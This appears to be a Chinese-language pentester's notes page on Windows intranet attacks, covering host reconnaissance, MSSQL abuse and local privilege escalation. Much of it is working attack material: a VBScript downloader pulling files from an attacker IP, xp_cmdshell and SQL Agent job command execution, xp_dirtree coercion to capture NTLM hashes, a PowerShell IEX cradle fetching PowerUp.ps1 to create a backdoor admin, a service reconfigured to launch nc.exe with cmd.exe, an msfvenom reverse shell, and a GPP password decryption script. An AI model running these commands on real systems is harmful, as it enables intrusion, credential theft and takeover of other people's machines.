


简介
最近开始接触windows内网渗透相关的知识, 暂定路线是单主机渗透提权、域渗透; 本文记录windows的信息收集
本文整理搜集到的windows内网渗透相关的一些知识, 后续将这些知识进行沉淀.
文章目录
- 信息收集
- 服务利用
- 权限提升
零、信息收集
1.系统信息1
2
3
4
5
6# 查看系统版本
$ systeminfo|findstr /B /C:"OS 名称" /C:"OS 版本"
$ systeminfo|findstr /B /C:"OS Name" /C:"OS Version"
#cpu_type
$ echo %PROCESSOR_ARCHITECTURE%
2.网络信息1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39# 查路由表
$ route print
# 查arp缓存
$ arp -A
# 查防火墙规则
$ netstat -ano
$ netsh firewall show config
$ netsh firewall show state
``
**3.应用程序及服务**
```bash
# 查计划任务
$ schtasks /QUERY /fo LIST /v
# 查服务进程ID
$ tasklist /svc
# 查安装的驱动
$ driverquery
# 查看安装的程序和版本信息
$ wmic product list brief
$ wmic process list brief
$ wmic startup list brief
# 查看.msi程序的执行权限
$ reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
$ reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
# 查看是否有setuid和setgid
$ reg query HKEY_Local_Machine\System\CurrentControlSet\Services\NfsSvr\Parameters\SafeSetUidGidBits
# 查看安装丙丁和时间信息
$ wmic qfe get Caption,Description,HotFixID,InstalledOn
# wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KBxxxxxxx"
4.敏感数据和目录1
2
3
4
5
6
7
8
9
10
11
12# 查找硬编码文件
$ cd /
$ dir /b/s password.txt
$ dir /b/s config.*
$ findstr /si password *.xml *.ini *.txt
$ find /si login *.xml *.ini *.txt
# 查找无人值守安装文件
C:\sysprep.inf
C:\sysprep\sysprep.xml
C:\Windows\Panther\Unattend\Unattended.xml
C:\Windows\Panther\Unattended.xml
5.文件系统1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29# python执行os命令
$ import os; os.system("cmd /c {command here}")
# 查看文件是否可写
$ dir /a-r-d /s /b
# 使用copy con命令创建ftp会话
$ copy con ftp.bat
ftp # 输入执行会话名称，按回车到下一行，之后按CTRL+Z结束编辑，再按回车退出
# 文件上传脚本
downloadfile.vbs
#Set your settings
strFileURL = "http://{YOUR_IP}/{FILE_NAME.EXT}"
strHDLocation = "c:\\{FILE_NAME.EXT}"
#Fetch the file
Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP")
objXMLHTTP.open "GET", strFileURL, false
objXMLHTTP.send()
If objXMLHTTP.Status = 200 Then
Set objADOStream = CreateObject("ADODB.Stream")
objADOStream.Open
objADOStream.Type = 1 'adTypeBinary
objADOStream.Write objXMLHTTP.ResponseBody
objADOStream.Position = 0 'Set the stream position to the start
Set objFSO = Createobject("Scriptin
# 未完..
一、服务利用
- 0x10 MsSql
- 0x11 SMB
本小节将持续更新…
0x10 MsSql Escalate Privilege
进入数据库后, 考虑从数据库中搜集信息、读数据库服务器上的操作系统文件进行信息收集、写文件插入WEB木马或覆盖计划任务、执行操作系统命令收集信息、利用存储过程与UNC获取NTLM Hash进行横向渗透等。
MsSql目前为止最新版本为2017。
预备知识
- SqlServer自带默认数据库：master、tempdb、model、msdb，还有两个实例数据库：Northwind、pubs
- 数据库登陆方式分为windows用户认证和数据库用户认证
- 数据库文件后缀为mdf, 如：msdb.mdf; 日志文件后缀为ldf, 如：msdb.ldf
- 只有在sysadmin权限下才可以使用存储过程xp_cmdshell; mssql 2000中, xp_cmdshell默认开启; mssql 2005及以上, 存储过程xp_cmdshell默认禁用;
MsSql基本操作
1.xp_cmdshell开启与关闭
MsSql执行操作系统命令主要依赖于xp_cmdshell存储过程, 在MsSql 2005及以上的数据库中xp_cmdshell默认被禁用, 所以需要掌握开启xp_cmdshell的语法;1
2
3
4
5
6
7
8
9
10
11
12
13--开启xp_cmdshell
EXEC sp_configure 'show advanced options',1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell',1
RECONFIGURE
--关闭xp_cmdshell
EXEC sp_configure 'show advanced options',1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell',0
RECONFIGURE
2. 数据搜索
mssql数据搜索的内容互联网上已经有一份完整的cheat-sheet, 参考cheatsheet: mssql-sql-injection-cheat-sheet即可完成这些工作.
3. 操作文件系统
1 | --读文件到数据表然后查看 |
4. 执行操作系统命令
xp_cmdshell存储过程是执行操作系统命令的首选, 它依赖于xplog70.dll, 如果xp_cmdshell被禁用且xplog70.dll文件被删除, 则考虑利用其它方式执行操作系统命令, 如job。1
EXEC xp_cmdshell ‘net user’;
5. 限制条件下的渗透测试
当删除xp_cmdshell并删除必要的DLL时，如何执行OS命令
1.xplog70.dll文件存在1
2
3
4
5-- 方式一
EXEC sp_addextendedproc 'xp_cmdshell','xplog70.dll'
-- 方式二
EXEC sp_addextendedproc xp_cmdshell,'C:\Program Files\Microsoft SQL Server\MSSQL\Binn\xplog70.dll'
2.xplog70.dll文件不存在1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17--通过操作系统的job执行操作系统的命令
DECLARE @jobID uniqueidentifier, @cmdvarchar(1000)
--定义要执行的操作系统命令
SET @cmd = 'net user SpiderLabs TW-SPL5562/ADD'
EXEC msdb.dbo.sp_add_job @job_name ='_tmp_MakeDirectory', @enabled = 1,@start_step_id = 1, @owner_login_name='sa', @job_id = @jobID OUTPUT
EXEC msdb.dbo.sp_add_jobstep @job_id = @jobID,@step_name = 'Create Backup Folder', @step_id = 1, @subsystem = 'CMDEXEC',@command = @cmd
EXEC msdb.dbo.sp_add_jobserver @job_id = @jobID
EXEC msdb.dbo.sp_start_job @job_id = @jobID,@output_flag = 0
WAITFOR DELAY '000:00:05'
IF EXISTS (SELECT name FROM msdb.dbo.sysjobsWHERE name = '_tmp_MakeDirectory')
BEGIN
EXECmsdb.dbo.sp_delete_job @job_name = '_tmp_MakeDirectory'
END
go
xp_makewebtask存储过程开启1
2exec sp_configure 'Web Assistant Procedures', 1
RECONFIGURE
6. xp_dirtree、xp_fileexit提权
进入数据库后, 在服务器上打开远程文件将运行MsSql服务账号的NTLM哈希值发送到远程主机, 这是因为windows机器在打开UNC文件时会直接发送NTLM哈希值进行认证, 所以打开UNC时NTLM哈希会直接发送到远程主机445端口上, 在445端口监听并接收即可。
MsSql中可以通过xp_DirTree、xp_fileexit、xp_cmdshell等方式打开远程共享文件使服务器发送NTLM哈希值, 通过impacket的mssqlserver或Responder或自定义的SMB服务器等在攻击机器上开启SMB Server接收NTLM哈希值。拿到windows账号后, 开始进行提权windows提权。1
2
3
4
5
6
7
8
9# 发送NTLM Hash
EXEC Master.dbo.xp_DirTree "\\<ip>\<share>";
EXEC Master.dbo.xp_fileexit "\\<ip>\<share>";
# 接收NTLM Hash
$ smbserver.py -smb2support myshare /tmp
$ responder -I eth0
攻击者接收到的NTLM Hash打印在shell的输出中, 格式为:1
mssql-svc::QUERIER:41414********141:32c3771953aadd26********d4bd9ab6:0101000000000000002b51864207********19aa772e88b200000000010010005a0054006d0076007a0053004a006e00030010005a0054006d0076007a0053004a006e000200100047006d00570059004300780071007a000400100047006d00570059004300780071007a0007000800002b51864207d501060004000200000008003000300000000000000000000000003000009d0b4c505ba7e636ef96e2fd65ccaa49b274f02c869919f6be981402eeb5b4900a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e00310031003100000000000000000000000000
其中, mssql-svc为用户名, QUERIER为MsSql所在机器的主机名, 后面的三段为NTLM Hash.
拿到NTLM Hash后, 开始进行一些列的横向渗透, 考虑爆破NTLM Hash值、用NTLM Hash登陆MsSql、SMB等.
关于如何利用NTLM Hash进行横向渗透的内容, 请参考path-to-hash及其他互联网内容.
参考文章
how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478
wendels-small-hacking-tricks-microsoft-sql-server-edition
详述MSSQL服务在渗透测试中的利用
Responder
mssql-client: sqsh
攻击mssql的存储过程
llmnr-nbtns-poisoning-using-responder
二、权限提升
Windows单机下通用的提权方法为:
- 0x20 内核
- 0x21 服务
- 0x22 dll
- 0x23 注册表
- 0x24 计划任务
- 0x25 文件
- 0x26 错误配置
0x20 内核
Windows爆出过很多的本地提权漏洞，通过搜集exploit-db上的本地提权poc和对应的漏洞编号及补丁号再结合powershell script查看已打的补丁号就可以找到可利用本地提权漏洞，该部分的内容重在收集。
关于这部分内容，已经有前人总结并形成脚本，可自行在github上搜索。1
2# 查找已打的补丁号
$ wmic qfe get Caption,Description,HotFixID,InstalldOn
0x21 服务
Windows下的服务常见的安全风险为：服务路径带空格且安装路径未用双引号闭合、不安全的服务权限
不带引号的服务路径
简介
Windows的目录支持空格, 含有空格的目录被引用时安全的做法是用双引号闭合路径, 如果含有空格的路径未闭合windows将从左向右开始解析, 比如: C:\Program File\360 service\av.exe, windows将先后查找:C:\Program.exe、C:\Program File\360.exe、C:\Program File\360 service\av.exe, 一旦找到经运行对应的文件.
Windows下的服务一般以SYSTEM权限或Administrator权限运行, 当服务的程序路径(BINARY_PATH_NAME)中包含空格时, 如果对应的目录可写则可以向目录中写入对应的恶意程序, 然后手工重启服务或等待服务重启时运行恶意程序进行提权.
PowerUp Exp1
2# 运行下面的命令将从远程下载powerup.ps并在内存中运行, 然后在unquoted service的可利用目录下写入恶意程序创建管理员账号: backdoor/Password123!
$ powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('http://<attack's ip>/PowerUp.ps1'); Write-ServiceBinary -ServiceName <target service name> -Path <target service unquoted path> -UserName backdoor -Password Password123!"
不安全的服务权限
该提权方法与不安全的注册表权限类似, 但此处不修改服务的ImagePath注册表值而是修改服务的属性。
为了检查服务权限是否有漏洞, 可下载微软提供的工具AccessChk, 这是Microsoft的Sysinternals Suite中的一个工具, 可以从here下载。
sc查看服务信息1
2
3
4
5
6
7
8
9
10
11
12
13
14
15# sc命令用于查询、配置和管理windows的服务
C:\Windows\system32> sc qc Spooler
[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: Spooler
TYPE : 110 WIN32_OWN_PROCESS (interactive)
START_TYPE : 2 AUTO_START
ERROR_CONTROL : 1 NORMAL
BINARY_PATH_NAME : C:\Windows\System32\spoolsv.exe
LOAD_ORDER_GROUP : SpoolerGroup
TAG : 0
DISPLAY_NAME : Print Spooler
DEPENDENCIES : RPCSS
: http
SERVICE_START_NAME : LocalSystem
用accesschk.exe查看服务的权限1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24# We can see the permissions that each user level has, you can also use "accesschk.exe -ucqv *" to list
all services.
C:\> accesschk.exe -ucqv Spooler
Spooler
R NT AUTHORITY\Authenticated Users
SERVICE_QUERY_STATUS
SERVICE_QUERY_CONFIG
SERVICE_INTERROGATE
SERVICE_ENUMERATE_DEPENDENTS
SERVICE_USER_DEFINED_CONTROL
READ_CONTROL
R BUILTIN\Power Users
SERVICE_QUERY_STATUS
SERVICE_QUERY_CONFIG
SERVICE_INTERROGATE
SERVICE_ENUMERATE_DEPENDENTS
SERVICE_START
SERVICE_USER_DEFINED_CONTROL
READ_CONTROL
RW BUILTIN\Administrators
SERVICE_ALL_ACCESS
RW NT AUTHORITY\SYSTEM
SERVICE_ALL_ACCESS
检查当前权限可操作的服务1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42# win10
C:\Users\b33f\tools\Sysinternals> accesschk.exe -uwcqv "Authenticated Users" *
Accesschk v6.12 - Reports effective permissions for securable objects
Copyright (C) 2006-2017 Mark Russinovich
Sysinternals - www.sysinternals.com
Error opening Authenticated Users:
?????????
No matching objects found.
# win xp xp1
C:\> accesschk.exe -uwcqv "Authenticated Users" *
RW SSDPSRV
SERVICE_ALL_ACCESS
RW upnphost
SERVICE_ALL_ACCESS
# 查服务权限
C:\> accesschk.exe -ucqv SSDPSRV
SSDPSRV
RW NT AUTHORITY\SYSTEM
SERVICE_ALL_ACCESS
RW BUILTIN\Administrators
SERVICE_ALL_ACCESS
RW NT AUTHORITY\Authenticated Users
SERVICE_ALL_ACCESS
RW BUILTIN\Power Users
SERVICE_ALL_ACCESS
RW NT AUTHORITY\LOCAL SERVICE
SERVICE_ALL_ACCESS
C:\> accesschk.exe -ucqv upnphost
upnphost
RW NT AUTHORITY\SYSTEM
SERVICE_ALL_ACCESS
RW BUILTIN\Administrators
SERVICE_ALL_ACCESS
RW NT AUTHORITY\Authenticated Users
SERVICE_ALL_ACCESS
RW BUILTIN\Power Users
SERVICE_ALL_ACCESS
RW NT AUTHORITY\LOCAL SERVICE
SERVICE_ALL_ACCESS
低权限用户可作为所有人权限操作服务的问题在XP SP2中被解决。该问题可作为通用的本地提权漏洞，通过重新配置服务，我们可以用SYSTEM权限运行指定的二进制文件。 eg:1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16# 此处选择unpnhost服务，上面查出的两个服务中任一个均可
# 查服务信息
sc qc upnphost
# 配置服务的binpath路径
sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
# 修改服务的obj配置
sc config upnphost obj= ".\LocalSystem" password= ""
# 查询服务的配置
sc qc upnphost
# 重启服务
net start upnphost
即使服务的权限配置不正确，我们也不总是拥有服务的完全访问权限。不同账号的权限如所示:1
2
3
4
5SERVICE_CHANGE_CONFIG 可以配置服务的二进制程序Can reconfigure the service binary
WRITE_DAC 可以配置权限, leading to SERVICE_CHANGE_CONFIG
WRITE_OWNER 可以成为所有者，配置权限
GENERIC_WRITE 继承SERVICE_CHANGE_CONFIG的权限
GENERIC_ALL 继承SERVICE_CHANGE_CONFIG的权限
0x22. dll
常见的dll提权方式为DLL注入和DLL劫持，具体原理及利用手法后续研究和总结。
dll劫持
原理: 当windows应用动态加载动态链接库(dll)时, 如果没有指定完整路径名, windows将尝试搜索预定义的路径来定位待加载的dll。 如果攻击者可以控制预定义路径中的任何一个就有可能导致dll劫持。
进程动态加载dll时, 系统会按如下顺序加载dll:
- 应用程序加载的目录
- 系统目录
- 16位的系统目录
- windows目录
- 当前目录
- PATH环境变量中列出的目录
为了利用dll劫持, 我们需要:
- 检查进程查找的dll是否存在与磁盘上
- 如果不存在, 将恶意dll放置在上述任一目录中即可
- 如果存在, 尝试将恶意dll放在更高优先级的目录中
2.dll注入
待总结
0x23 注册表
WIndows下的注册表类似于windows系统的数据库，记载windows系统的配置并改变windows系统的行为；默认情况下，注册表的权限是安全的，但是，在企业中可能有各种原因导致需要修改注册表的权限来确保第权限的业务方操作对应的注册表内容，如果这个过程没有配置好权限就可能导致提权。
关于注册表提权的手法后续研究和总结。
0x24 计划任务(Administrator to SYSTEM)
Tips 该方法仅使用与Windows 2000、XP或2003计算机, 必须拥有本地管理员权限才能管理计划任务, 因为计划任务的创建和修改必须使用管理员权限的账号, 如果是一个普通用户权限的账户或meterpreter会话则无法利用此方法提权。
在Windows 2000、XP或2003计算机上，计划任务以SYSTEM权限运行, 这意味这如果我们创建一个执行恶意文件的计划任务, 恶意文件将以SYSTEM权限执行
相关命令1
2
3
4
5
6
7
8# msf创建反弹shell
$ msgvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_na LHOST=<your ip> LPORT=<your port> -f exe -o Payload.exe
# cmd命令开启计划任务(必须以管理员权限运行)
$ net start "Task Scheduler"
# 创建计划任务
$ at 06:42 /interactive "C:\Documents and Settings\test\Local Settings\Temp\Payload.exe"
0x25. 文件
Windows，作为用户量最大的个人PC霸占着大部分企业的办公电脑系统，办公电脑中又经常保存开发环境、测试环境、生产环境的各种机器账号和密码；所以，对于文件中密钥的搜集是提权中重要且成本低的手法。
目前已经有大量的工具用于提取windows系统中文件中的密码，这些文件包括：浏览器的数据文件、远程控制工具的数据文件、组策略首选项文件、Windows密钥文件
从浏览器文件中提取凭证
chrome: chromepass
firefox: firefox_decrypt
1 | $ python chromepass.py -d |
从远控工具中提取凭证
PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDPhere、mRemoteNGhere
组策略首选项文件
在Windows域环境中, 有时需要从域控下发全局组策略在域内机器上执行, 这时候会用到SYSVOS的共享目录, 共享目录中存放用于执行组策略的账户和加密后的密钥. 该功能在Windows Server 2008中引入, 组策略首选项中指定的账户的凭证被加密存储在Groups.xml文件中, 密码为XML中的cpassword字段。常见组策略为难如下所示:
- Services\Services.xml
- ScheduledTasks\ScheduledTasks.xml
- Printers\Printers.xml
- Drives\Drives.xml
- DataSources\DataSources.xml
微软公开了用于加密的公钥创建并被公开, 因此组策略中的密码可以被破解； 组策略中一般指定Administrator账号, 所以一旦破解便可以用管理员身份登陆主机实现提权。
Groups.xml文件存储在共享文件中, 任何经过身份验证的用户都可以读取该文件, 因为访问该文件才能够进行组策略更新。 为了利用该问题, 需要寻找groups.xml文件的位置。
用于加密存储的公钥如下：1
24e 99 06 e8 fc b6 6c c9 fa f4 93 10 62 0f fe e8
f4 96 e8 06 cc 05 79 90 20 9b 09 a4 33 b6 6c 1b
破解工具
gp3finder
carnal0wnage编写的ruby脚本1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26require 'rubygems'
require 'openssl'
require 'base64'
encrypted_data = "j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw"
def decrypt(encrypted_data)
padding = "=" * (4 - (encrypted_data.length % 4))
epassword = "#{encrypted_data}#{padding}"
decoded = Base64.decode64(epassword)
key = "\x4e\x99\x06\xe8\xfc\xb6\x6c\xc9\xfa\xf4\x93\x10\x62\
x0f\xfe\xe8\xf4\x96\xe8\x06\xcc\x05\x79\x90\x20\x9b\x09\xa4\
x33\xb6\x6c\x1b"
aes = OpenSSL::Cipher::Cipher.new("AES-256-CBC")
aes.decrypt
aes.key = key
plaintext = aes.update(decoded)
plaintext << aes.final
pass = plaintext.unpack('v*').pack('C*') # UNICODE conversion
return pass
end
blah = decrypt(encrypted_data)
puts blah
PowerShplit1
$ Get-CachedGPPPassword //For locally stored GP Files
Windows密钥文件
Windows系统的账号密码保存在C:/Windows/System32/config目录下的SYSTEM、SAM文件中，通过samdump2可以将密钥提取出来。1
$ samdump2 SYSTEM SAM -o /tmp/ntlm_hash.txt
0x26 错误配置
Windows系统的复杂性导致了出现错误配置的可能行，该部分对系统的错误配置可能导致提权的方法进行研究和总结。
AlwaysInstallElevated
该配置译为总是以高权限安装，在Windows 2000及以上可用；该配置作用于通过windows installer安装的应用程序，如果指了AlwaysInstallElevalted, 则普通用户安装应用程序文件时，将以本地系统管理员(NT AUTHORITY\SYSTEM)的权限进行安装，可安装提权msi程序进行提权。该配置默认为未配置，微软强烈建议不要开启此配置，所以请关闭此配置。
查看该配置状态的方法：
打开cmd运行gpedit.msc，在”计算机配置(Computer Configuration)” - “管理模版(Administrative Templates)” - “windows组件(Windows Components)” - “Windows Installer”中可以找到”永远以高权限进行安装(Always install with elevated)”，右键选中”属性”即可看到当前配置
查注册表”HKEY_CURRENT_USER”和”HKEY_LOCAL_MACHINE”中的”Software” - “Policies” - “Microsoft” - “Windows” - “Installer”下是否有”EnableAdminTSRemote”键，如果存在且值不等于0则可以提权；否则无法提权。
1
2
3
4# This will only work if both registry keys contain "AlwaysInstallElevated" with DWORD values of 1.
C:\Windows\system32> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
C:\Windows\system32> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
参考文章
using-powerup-with-unquoted-service-paths
privesc-unquoted-service-path
youtube - Windows Privilege Escalation
Group Policy Preferences
PowerUp
windows-privilege-escalation-alwaysinstallelevated
Windows渗透资料
Ninjitsu
Ninjitsu
wmic_info.bat
Badly patched
Windows Privilege Escalation Methods for Pentesters
Windows - Privilege Escalation
tools
Windows Privilege Escalation Guide
my-5-top-ways-to-escalate-privileges
escalate-privilege-with-cve
域用户组详解